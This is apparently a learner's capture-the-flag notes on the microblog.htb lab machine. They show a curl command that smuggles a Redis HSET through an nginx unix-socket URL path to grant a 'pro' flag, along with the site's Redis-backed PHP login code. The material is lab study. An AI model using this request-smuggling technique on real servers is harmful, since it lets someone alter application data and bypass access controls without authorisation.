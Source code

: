 Another hint.... to get pro we need to use this command , i know that this is using redis...I saw on the source code... but im feeling very upset right now,  because I don't feel able to find this command by myself ? how this person did it ? 

https://redis.io/commands/hset/


```
curl -X "HSET" http://microblog.htb/static/unix:%2fvar%2frun%2fredis%2fredis.sock:testy%20pro%20true%20a/b
```

I will stop for today, I feel realy realy realy upset...


Ok Its a new day and I did my first wifi attack (of course in a controlled environment) and it was successfull.. you know intercepting the  three way handshake.



But, lets continue with this...

![[Screenshot_2023-09-16_08_40_30.png]]

HGET returns the value of a hash.. but why after http://microblog this is writed "/static/unix:%2fvar%2frun%2fredis%2fredis.sock:testy%20pro%20true%20a/b"




in the index says something about the "HGET" 
```
|   |
|---|
|`if (isset($_POST['username']) && isset($_POST['password'])) {`|
||`$redis = new Redis();`|
||`$redis->connect('/var/run/redis/redis.sock');`|
||`$username = $redis->HGET(trim($_POST['username']), "username");`|
||`if(strlen(strval($username)) > 0) {`|
||`if(strval($redis->HGET(trim($_POST['username']), "username")) == trim($_POST['username']) && strval($redis->HGET(trim($_POST['username']), "password")) == trim($_POST['password'])) {`|
||`$_SESSION['username'] = trim($_POST['username']);`|
||`header("Location: /dashboard?message=Login successful!&status=success");`|
||`}`|
||`else {`|
||`header("Location: /login?message=Login failed&status=fail");`|
||`}`|
||`}`|
||`else {`|
||`header("Location: /login?message=Login failed&status=fail");`|
||`}`|


```

NOW I UNDERSTAND !!

THIS IS THE PATH OF redis
```
/var/run/redis/redis.sock
```
